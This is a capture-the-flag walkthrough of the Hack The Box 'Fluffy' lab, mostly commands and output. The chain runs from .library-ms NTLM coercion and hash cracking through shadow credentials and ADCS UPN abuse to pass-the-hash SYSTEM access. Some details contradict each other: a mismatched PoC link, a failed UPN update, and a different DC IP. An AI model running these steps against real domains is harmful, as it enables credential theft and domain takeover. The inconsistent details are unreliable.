

# HTB: Fluffy Walkthrough
---
## Machine Overview
- **Name:** Fluffy
- **OS:** Windows
- **Difficulty:** Easy

Fluffy is an easy-difficulty Windows Active Directory machine. Initial access is achieved via credentialed SMB enumeration and NTLM credential coercion through a malicious .library-ms file. The resulting hash is cracked to obtain a domain user password. BloodHound analysis reveals a path through Service Account group delegation leading to shadow credentials abuse of service accounts. Further enumeration uncovers an ADCS misconfiguration, which is leveraged to impersonate the Administrator via certificate-based authentication, ultimately resulting in SYSTEM compromise.

---

This is an assumed breach lab with provided credentials `j.fleischman : J0elTHEM4n1990!`

## Reconnaissance
### Open ports
I started with identifying open ports
```sh
❯ sudo nmap -p- -vvv --min-rate 10000 1 10.129.10.57    
PORT      STATE SERVICE          REASON  
53/tcp    open  domain           syn-ack ttl 127  
88/tcp    open  kerberos-sec     syn-ack ttl 127  
139/tcp   open  netbios-ssn      syn-ack ttl 127  
389/tcp   open  ldap             syn-ack ttl 127  
445/tcp   open  microsoft-ds     syn-ack ttl 127  
464/tcp   open  kpasswd5         syn-ack ttl 127  
593/tcp   open  http-rpc-epmap   syn-ack ttl 127  
636/tcp   open  ldapssl          syn-ack ttl 127  
3268/tcp  open  globalcatLDAP    syn-ack ttl 127  
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127  
5985/tcp  open  wsman            syn-ack ttl 127  
9389/tcp  open  adws             syn-ack ttl 127  
49667/tcp open  unknown          syn-ack ttl 127  
49689/tcp open  unknown          syn-ack ttl 127  
49690/tcp open  unknown          syn-ack ttl 127  
49702/tcp open  unknown          syn-ack ttl 127  
49716/tcp open  unknown          syn-ack ttl 127  
49729/tcp open  unknown          syn-ack ttl 127  
  
# Save the output to a file then extract the ports and make them a list
❯ cat open-ports.txt | awk '{print $1 }' | awk -F / '{ print $1 }' | paste -sd, -  
53,88,139,389,445,464,593,636,3268,3269,5985,9389,49667,49689,49690,49702,49716,49729

# Scan the open ports only

```

We have common windows ports open for a dc
There is a clock skew of about 7hrs which is too great and I'll need to sync my time with the dc in-case I need kerberos

### smb enumeration

Since we are provided with credentials, i tried them on smb
```sh
❯ nxc smb 10.129.10.57 -u j.fleischman -p 'J0elTHEM4n1990!'  
SMB         10.129.10.57    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.10.57    445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!    
❯ nxc smb 10.129.10.57 -u j.fleischman -p 'J0elTHEM4n1990!' --shares  
SMB         10.129.10.57    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.10.57    445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!    
SMB         10.129.10.57    445    DC01             [*] Enumerated shares  
SMB         10.129.10.57    445    DC01             Share           Permissions     Remark  
SMB         10.129.10.57    445    DC01             -----           -----------     ------  
SMB         10.129.10.57    445    DC01             ADMIN$                          Remote Admin  
SMB         10.129.10.57    445    DC01             C$                              Default share  
SMB         10.129.10.57    445    DC01             IPC$            READ            Remote IPC  
SMB         10.129.10.57    445    DC01             IT              READ,WRITE         
SMB         10.129.10.57    445    DC01             NETLOGON        READ            Logon server share    
SMB         10.129.10.57    445    DC01             SYSVOL          READ            Logon server share
```
We have read and write permission on `IT`  share
Using smbclient to access the share
```sh
❯ smbclient '\\10.129.10.57\IT' -U 'j.fleischman'  
  
Password for [WORKGROUP\j.fleischman]:  
Try "help" to get a list of possible commands.  
smb: \> ls  
 .                                   D        0  Sat Jun  6 06:15:07 2026  
 ..                                  D        0  Sat Jun  6 06:15:07 2026  
 Everything-1.4.1.1026.x64           D        0  Fri Apr 18 18:08:44 2025  
 Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 18:04:05 2025  
 KeePass-2.58                        D        0  Fri Apr 18 18:08:38 2025  
 KeePass-2.58.zip                    A  3225346  Fri Apr 18 18:03:17 2025  
 Upgrade_Notice.pdf                  A   169963  Sat May 17 17:31:07 2025  
  
               5842943 blocks of size 4096. 2235079 blocks available  
smb: \> get Everything-1.4.1.1026.x64.zip  
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (458.2 KiloBytes/sec) (average 458.2 KiloBytes/sec)  
smb: \> get KeePass-2.58.zip  
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (469.4 KiloBytes/sec) (average 465.3 KiloBytes/sec)
smb: \> get Upgrade_Notice.pdf  
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (39.9 KiloBytes/sec) (average 148.2 KiloBytes/sec)
```

Checking on the pdf 
```sh
❯ exiftool Upgrade_Notice.pdf  
  
ExifTool Version Number         : 13.55  
File Name                       : Upgrade_Notice.pdf  
Directory                       : .  
File Size                       : 170 kB  
File Modification Date/Time     : 2026:06:05 23:18:56+03:00  
File Access Date/Time           : 2026:06:05 23:18:54+03:00  
File Inode Change Date/Time     : 2026:06:05 23:18:56+03:00  
File Permissions                : -rw-r--r--  
File Type                       : PDF  
File Type Extension             : pdf  
MIME Type                       : application/pdf  
PDF Version                     : 1.4  
Linearized                      : No  
Page Count                      : 2  
Tagged PDF                      : Yes  
Language                        : en  
Title                           : Upgrade Notice For IT Department  
Create Date                     : 2025:05:17 07:22:32+00:00  
Modify Date                     : 2025:05:17 07:22:32+00:00  
Keywords                        : DAGnmrYlJoI, BAF-XVRpOno, 0  
Author                          : p.agila  
❯ pdfinfo Upgrade_Notice.pdf  
  
Title:           Upgrade Notice For IT Department  
Keywords:        DAGnmrYlJoI,BAF-XVRpOno,0  
Author:          p.agila  
CreationDate:    Sat May 17 10:22:32 2025 EAT  
ModDate:         Sat May 17 10:22:32 2025 EAT  
Custom Metadata: no  
Metadata Stream: no  
Tagged:          yes  
UserProperties:  no  
Suspects:        no  
Form:            none  
JavaScript:      no  
Pages:           2  
Encrypted:       no  
Page size:       595.5 x 841.92 pts (A4)  
Page rot:        0  
File size:       169963 bytes  
Optimized:       no  
PDF version:     1.4
```
We get anew user `p.agila` the pdf contains  a vulnerability assessment report with a list of possible exploits
```
CVE ID Severity 
CVE-2025-24996 Critical 
CVE-2025-24071 Critical 
CVE-2025-46785 High 
CVE-2025-29968 High 
CVE-2025-21193 Medium
CVE-2025-3445 Low
```
CVE-2025-24071 is interesting and could apply to this situation
“This attack leverages a Windows Explorer/Library-MS NTLM authentication coercion technique similar to known .library-ms parsing issues, where automatic SMB authentication is triggered when Windows processes specially crafted library files.”
Vulnerability Mechanics
- **The Vector**: Attackers create a malicious `.library-ms` file—an XML-based format used by Windows to manage search configurations and library directories.
- **The Payload**: Inside the file, a `<simpleLocation>` tag is crafted to point to an attacker-controlled remote SMB (Server Message Block) server.
- **Zero-Click Extraction**: The malicious file is packed inside a standard archive (like `.zip` or `.rar`). When a victim extracts the archive, the Windows indexing service (`SearchProtocolHost.exe`) and `Explorer.exe` automatically read the file to populate metadata, icons, or thumbnails.
- **The Leak**: This automatic parsing triggers an immediate, silent outbound SMB authentication request to the malicious server. The victim's encrypted NTLMv2 hash is beamed straight to the attacker without the user ever explicitly opening or clicking the `.library-ms` file.
An exploit is available [**CVE-2025-24071**](https://github.com/alt3kx/CVE-2023-24055_PoC)
Then since we have write access to IT, we can upload the zip file there
1. Generate the exploit
```sh
❯ python3 CVE-2025-24071.py -i 10.10.15.179 -n payload1 -o ./output_folder --keep  
[*] Generating malicious .library-ms file...  
[+] Created ZIP: output_folder/payload1.zip  
[!] Done. Send ZIP to victim and listen for NTLM hash on your SMB server.  
❯ cd output_folder  
❯ ls -la  
total 16  
drwxr-xr-x 2 kevin kevin 4096 Jun  6 09:10 .  
drwxr-xr-x 5 kevin kevin 4096 Jun  6 09:10 ..  
-rw-r--r-- 1 kevin kevin  365 Jun  6 09:18 payload1.library-ms  
-rw-r--r-- 1 kevin kevin  325 Jun  6 09:18 payload1.zip  

```
2. Upload the exploit
```sh
❯ smbclient '\\10.129.10.57\IT' -U 'j.fleischman'  
  
Password for [WORKGROUP\j.fleischman]:  
Try "help" to get a list of possible commands.  
smb: \> put payload1.zip  
putting file payload1.zip as \payload1.zip (0.3 kB/s) (average 0.3 kB/s)  
smb: \> ls  
 .                                   D        0  Sat Jun  6 16:18:44 2026  
 ..                                  D        0  Sat Jun  6 16:18:44 2026  
 Everything-1.4.1.1026.x64           D        0  Fri Apr 18 18:08:44 2025  
 Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 18:04:05 2025  
 KeePass-2.58                        D        0  Fri Apr 18 18:08:38 2025  
 KeePass-2.58.zip                    A  3225346  Fri Apr 18 18:03:17 2025  
 payload1.zip                        A      325  Sat Jun  6 16:18:45 2026  
 Upgrade_Notice.pdf                  A   169963  Sat May 17 17:31:07 2025  
  
               5842943 blocks of size 4096. 2233823 blocks available  
smb: \>
```
2. Start responder
```sh
sudo responder -I tun0
```

After a while we get a hash 
```sh
[SMB] NTLMv2-SSP Client   : 10.129.10.57  
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila  
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:3e3faf703f1982db:AA7DE2009D689BF12964D8F8DB7DD18D:01010000000000000089294395F5DC010E4499FE1BFA14BE0000000002000800480035005000460001001E00570049004E002D004F003800410054004B004B004100490055004B0  
0370004003400570049004E002D004F003800410054004B004B004100490055004B0037002E0048003500500046002E004C004F00430041004C000300140048003500500046002E004C004F00430041004C000500140048003500500046002E004C004F00430041004C00070008000089294395F5DC01  
06000400020000000800300030000000000000000100000000200000D9CEFB73AC9F785D11D093F76B1C637AA46B24092941269A78DBA5EE33CB4DF80A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100370039000  
000000000000000
```

Craking the hash using hashcat
```sh
❯ hashcat p.agila.hash ~/Documents/cybersec/wordlists/rockyou.txt  
--[SNIP]--  
P.AGILA::FLUFFY:3e3faf703f1982db:aa7de2009d689bf12964d8f8db7dd18d:01010000000000000089294395f5dc010e4499fe1bfa14be0000000002000800480035005000460001001e00570049004e002d004f003800410054004b004b004100490055004b00370004003400570049004e002d0  
04f003800410054004b004b004100490055004b0037002e0048003500500046002e004c004f00430041004c000300140048003500500046002e004c004f00430041004c000500140048003500500046002e004c004f00430041004c00070008000089294395f5dc010600040002000000080030003000  
0000000000000100000000200000d9cefb73ac9f785d11d093f76b1c637aa46b24092941269a78dba5ee33cb4df80a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003100370039000000000000000000:prometheusx-303  

```
I get a hit `prometheusx-303`

testing with smb it works but winrm does not
```sh
❯ nxc smb 10.129.10.57 -u p.agila -p 'prometheusx-303'  
SMB         10.129.10.57    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.10.57    445    DC01             [+] fluffy.htb\p.agila:prometheusx-303    
❯ nxc winrm 10.129.10.57 -u p.agila -p 'prometheusx-303'  
WINRM       10.129.10.57    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)    
WINRM       10.129.10.57    5985   DC01             [-] fluffy.htb\p.agila:prometheusx-303  
❯ nxc smb 10.129.10.57 -u p.agila -p 'prometheusx-303' --shares  
SMB         10.129.10.57    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.10.57    445    DC01             [+] fluffy.htb\p.agila:prometheusx-303    
SMB         10.129.10.57    445    DC01             [*] Enumerated shares  
SMB         10.129.10.57    445    DC01             Share           Permissions     Remark  
SMB         10.129.10.57    445    DC01             -----           -----------     ------  
SMB         10.129.10.57    445    DC01             ADMIN$                          Remote Admin  
SMB         10.129.10.57    445    DC01             C$                              Default share  
SMB         10.129.10.57    445    DC01             IPC$            READ            Remote IPC  
SMB         10.129.10.57    445    DC01             IT              READ,WRITE         
SMB         10.129.10.57    445    DC01             NETLOGON        READ            Logon server share    
SMB         10.129.10.57    445    DC01             SYSVOL          READ            Logon server share
```

Nothing new in smb. I decided to spray this password if any other user uses the same password
generate users
```sh
❯ nxc ldap 10.129.10.57 -u p.agila -p 'prometheusx-303' --users-export users.txt  
LDAP        10.129.10.57    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:None) (channel binding:Never)    
LDAP        10.129.10.57    389    DC01             [+] fluffy.htb\p.agila:prometheusx-303    
LDAP        10.129.10.57    389    DC01             [*] Enumerated 9 domain users: fluffy.htb  
LDAP        10.129.10.57    389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-                                                  
LDAP        10.129.10.57    389    DC01             Administrator                 2025-04-17 18:45:01 0        Built-in account for administering the computer/domain         
LDAP        10.129.10.57    389    DC01             Guest                         <never>             0        Built-in account for guest access to the computer/domain       
LDAP        10.129.10.57    389    DC01             krbtgt                        2025-04-17 19:00:02 0        Key Distribution Center Service Account                        
LDAP        10.129.10.57    389    DC01             ca_svc                        2025-04-17 19:07:50 0                                                                       
LDAP        10.129.10.57    389    DC01             ldap_svc                      2025-04-17 19:17:00 0                                                                       
LDAP        10.129.10.57    389    DC01             p.agila                       2025-04-18 17:37:08 1                                                                       
LDAP        10.129.10.57    389    DC01             winrm_svc                     2025-05-18 03:51:16 0                                                                       
LDAP        10.129.10.57    389    DC01             j.coffey                      2025-04-19 15:09:55 2                                                                       
LDAP        10.129.10.57    389    DC01             j.fleischman                  2025-05-16 17:46:55 0                                                                       
LDAP        10.129.10.57    389    DC01             [*] Writing 9 local users to users.txt
```

Password spraying
```sh
❯ nxc smb 10.129.10.57 -u users.txt -p 'prometheusx-303' --continue-on-success  
SMB         10.129.10.57    445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\Administrator:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\Guest:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\krbtgt:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\ca_svc:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\ldap_svc:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [+] fluffy.htb\p.agila:prometheusx-303    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\winrm_svc:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\j.coffey:prometheusx-303 STATUS_LOGON_FAILURE    
SMB         10.129.10.57    445    DC01             [-] fluffy.htb\j.fleischman:prometheusx-303 STATUS_LOGON_FAILURE
```

This was a dead end.

## Bloodhound
I decide to collect bloodhound data for further analysis
```sh
❯ nxc ldap 10.129.10.57 -u p.agila -p 'prometheusx-303' --bloodhound --collection All --dns-server 10.129.10.57 -d fluffy.htb  
LDAP        10.129.10.57    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:None) (channel binding:Never)    
LDAP        10.129.10.57    389    DC01             [+] fluffy.htb\p.agila:prometheusx-303    
LDAP        10.129.10.57    389    DC01             Resolved collection methods: trusts, objectprops, acl, rdp, session, dcom, psremote, container, localadmin, group  
LDAP        10.129.10.57    389    DC01             Done in 1M 6S  
LDAP        10.129.10.57    389    DC01             Compressing output into /home/kevin/.nxc/logs/DC01_10.129.10.57_2026-06-06_112202_bloodhound.zip
```

Analysis of bloodhound reveals
- `P.agila` is not in remote management users group, that is why we could not winrm.
- Remote management users group has only 1 user `winrm_svc`
- `p.agile` is a member of service account managers group which has `GenericAll` service account group which has `genericWrite` on `winrm_svc`.

Meaning we can add ourselves to service accounts group then create shadow credentials for `winrm)svc` user.
Another interesting path after discovering service accounts also has `GenericWrite` on `ca_svc` user which is a high value  user. However this path is dependent on  having a vulnerable certificate template

Checking what winrm_svc user can do reveals they really cant do anything new. so my first priority is the certificates path

Add self to group
```sh
❯ bloodyAD --host 10.129.10.57 -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" add groupMember "service accounts" "p.agila"  
[+] p.agila added to service accounts
❯ bloodyAD --host 10.129.10.57 -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" get membership "p.agila"  
  
  
distinguishedName: CN=Users,CN=Builtin,DC=fluffy,DC=htb  
objectSid: S-1-5-32-545  
sAMAccountName: Users  
  
distinguishedName: CN=Domain Users,CN=Users,DC=fluffy,DC=htb  
objectSid: S-1-5-21-497550768-2797716248-2627064577-513  
sAMAccountName: Domain Users  
  
distinguishedName: CN=Service Account Managers,CN=Users,DC=fluffy,DC=htb  
objectSid: S-1-5-21-497550768-2797716248-2627064577-1604  
sAMAccountName: Service Account Managers  
  
distinguishedName: CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  
objectSid: S-1-5-21-497550768-2797716248-2627064577-1607  
sAMAccountName: Service Accounts
```

we are now a member of `Service Accounts` We can now create shadow credentials for `ca_svc`
Shadow credentials abuse the `msDS-KeyCredentialLink` attribute to register an attacker-controlled key, allowing authentication as the target account via PKINIT without modifying the password.
```sh
❯ bloodyAD --host 10.129.10.57 -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" add shadowCredentials ca_svc  
  
[+] KeyCredential generated with following sha256 of RSA key: 3fb85aeac9af0bfb6dfa9f3b45c05cc1845408a663b3559959e911ffb4833cec  
[+] TGT stored in ccache file ca_svc_r8.ccache  

NT: ca0f4f9e9eb8a092addf53bb03fc98c8
```
We `ca_svc`'s NT hash

Checking vulnerable certificate templates

```sh
❯ certipy find -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.10.57 -vuln -stdout  
Certipy v5.0.4 - by Oliver Lyak (ly4k)  

[*] Finding certificate templates  
[*] Found 33 certificate templates  
[*] Finding certificate authorities  
[*] Found 1 certificate authority  
[*] Found 11 enabled certificate templates  
[*] Finding issuance policies  
[*] Found 14 issuance policies  
[*] Found 0 OIDs linked to templates  
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP  
[!] Failed to connect to remote registry. Service should be starting now. Trying again...  
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'  
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'  
[!] Error checking web enrollment: timed out  
[!] Use -debug to print a stacktrace  
[!] Error checking web enrollment: timed out  
[!] Use -debug to print a stacktrace  
[*] Enumeration output:  
Certificate Authorities  
 0  
   CA Name                             : fluffy-DC01-CA  
   DNS Name                            : DC01.fluffy.htb  
   Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb  
   Certificate Serial Number           : 3150FA7E60CE28AD4DAE41A1B61D8874  
   Certificate Validity Start          : 2025-04-17 16:00:16+00:00  
   Certificate Validity End            : 3024-04-17 16:12:16+00:00  
   Web Enrollment  
     HTTP  
       Enabled                         : False  
     HTTPS  
       Enabled                         : False  
   User Specified SAN                  : Disabled  
   Request Disposition                 : Issue  
   Enforce Encryption for Requests     : Enabled  
   Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy  
   Disabled Extensions                 : 1.3.6.1.4.1.311.25.2  
   Permissions  
     Owner                             : FLUFFY.HTB\Administrators  
     Access Rights  
       ManageCa                        : FLUFFY.HTB\Domain Admins  
                                         FLUFFY.HTB\Enterprise Admins  
                                         FLUFFY.HTB\Administrators  
       ManageCertificates              : FLUFFY.HTB\Domain Admins  
                                         FLUFFY.HTB\Enterprise Admins  
                                         FLUFFY.HTB\Administrators  
       Enroll                          : FLUFFY.HTB\Cert Publishers  
                                         FLUFFY.HTB\Administrators  
       Read                            : FLUFFY.HTB\Administrators  
   [!] Vulnerabilities  
     ESC16                             : Security Extension is disabled.  
   [*] Remarks  
     ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.  
Certificate Templates                   : [!] Could not find any certificate templates
```
Although ESC16 was detected, it was not directly exploitable in this path due to lack of enrollment/web endpoints and missing template misconfigurations, so we pivoted to UPN manipulation via ca_svc.

```sh
❯ bloodyAD --host 10.129.10.57 -d fluffy.htb -u p.agila -p prometheusx-303 \  
 set object ca_svc userPrincipalName -v 'Administrator@fluffy.htb'  
[+] ca_svc's userPrincipalName has been updated
```

The RPC/DCOM ports are blocked or filtered.The most likely fix though is going through **WinRM via winrm_svc** to get a foothold on the box and request the cert locally

Lets go back to the user `winrm_svc`
I created shadow credentials 
```sh
❯ bloodyAD --host 10.129.10.57 -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" add shadowCredentials winrm_svc  
[+] KeyCredential generated with following sha256 of RSA key: db5bd4f38ea637e27cdc712e8bb904a955e15dc6b13649b7e3249d3045055ed6  
[+] TGT stored in ccache file winrm_svc_0I.ccache  
  
NT: 33bd09dcd697600edf6b3a7af4875767
```
I can then use the NT hash to winrm into the machine

## Winrm as winrm_svc
```sh
❯ evil-winrm -i 10.129.10.57 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems  
                                          
Evil-WinRM shell v3.9  
                                          
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline  
                                          
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion  
                                          
Info: Establishing connection to remote endpoint  
/usr/lib/ruby/gems/3.4.0/gems/rexml-3.4.4/lib/rexml/xpath.rb:67: warning: REXML::XPath.each, REXML::XPath.first, REXML::XPath.match dropped support for nodeset...  
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami  
fluffy\winrm_svc  
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> dir  
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd ..\  
*Evil-WinRM* PS C:\Users\winrm_svc> dir  
  
  
   Directory: C:\Users\winrm_svc  
  
  
Mode                LastWriteTime         Length Name  
----                -------------         ------ ----  
d-r---        5/17/2025  11:56 AM                Desktop  
d-r---        5/19/2025   9:15 AM                Documents  
d-r---        9/15/2018  12:19 AM                Downloads  
d-r---        9/15/2018  12:19 AM                Favorites  
d-r---        9/15/2018  12:19 AM                Links  
d-r---        9/15/2018  12:19 AM                Music  
d-r---        9/15/2018  12:19 AM                Pictures  
d-----        9/15/2018  12:19 AM                Saved Games  
d-r---        9/15/2018  12:19 AM                Videos  
  
  
*Evil-WinRM* PS C:\Users\winrm_svc> dir Desktop  
  
  
   Directory: C:\Users\winrm_svc\Desktop  
  
  
Mode                LastWriteTime         Length Name  
----                -------------         ------ ----  
-ar---         6/5/2026   8:01 PM             34 user.txt  
  
  
*Evil-WinRM* PS C:\Users\winrm_svc> type Desktop\user.txt  
187def816f33608c4bd7964ea2ed9429
```

We get users flag

## Priv escalation

```sh
❯ certipy account -u 'p.agila' -p prometheusx-303 -dc-ip 10.129.10.57 -user ca_svc -upn administrator update  
Certipy v5.0.4 - by Oliver Lyak (ly4k)  
  
[*] Updating user 'ca_svc':  
   userPrincipalName                   : administrator  
[-] User 'P.AGILA' doesn't have permission to update these attributes on 'ca_svc'
```
By setting the UPN of `ca_svc` to `Administrator@fluffy.htb`, we enable certificate authentication to impersonate the Administrator account via ADCS enrollment.”


Request the cert:
```sh
❯ certipy req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -target dc01.fluffy.htb -ca fluffy-DC01-CA -template User  
Certipy v5.0.4 - by Oliver Lyak (ly4k)  
  
3 answered The DNS operation timed out.  
[!] Use -debug to print a stacktrace  
[*] Requesting certificate via RPC  
[*] Request ID is 24  
[*] Successfully requested certificate  
[*] Got certificate with UPN 'Administrator@fluffy.htb'  
[*] Certificate has no object SID  
[*] Try using -sid to set the object SID or see the wiki for more details  
[*] Saving certificate and private key to 'administrator.pfx'  
[*] Wrote certificate and private key to 'administrator.pfx'
```

Request Auth
```sh
❯ certipy auth -pfx administrator.pfx -dc-ip 10.129.10.57  
Certipy v5.0.4 - by Oliver Lyak (ly4k)  
  
[*] Certificate identities:  
[*]     SAN UPN: 'Administrator@fluffy.htb'  
[*] Using principal: 'administrator@fluffy.htb'  
[*] Trying to get TGT...  
[*] Got TGT  
[*] Saving credential cache to 'administrator.ccache'  
[*] Wrote credential cache to 'administrator.ccache'  
[*] Trying to retrieve NT hash for 'administrator'  
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```
## Root
With the Administrator NT hash obtained via certificate authentication, we performed Pass-the-Hash using Impacket’s `psexec.py` to gain SYSTEM-level access.
```sh
❯ psexec.py fluffy.htb/administrator'@10.129.10.57' -hashes :8da83a3fa618b6e3a00e93f676c92a6e  
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies    
  
[*] Requesting shares on 10.129.10.57.....  
[*] Found writable share ADMIN$  
[*] Uploading file tZWFMcaL.exe  
[*] Opening SVCManager on 10.129.10.57.....  
[*] Creating service FTXT on 10.129.10.57.....  
[*] Starting service FTXT.....  
[!] Press help for extra shell commands  
Microsoft Windows [Version 10.0.17763.6893]  
(c) 2018 Microsoft Corporation. All rights reserved.  
  
C:\Windows\system32> whoami  
nt authority\system  
  
C:\Windows\system32> cd C:\Users\administrator\Desktop  
   
C:\Users\Administrator\Desktop> type root.txt  
2e615ed4c5f9a8a712d097ee5dfbbc40  
  
C:\Users\Administrator\Desktop>
```
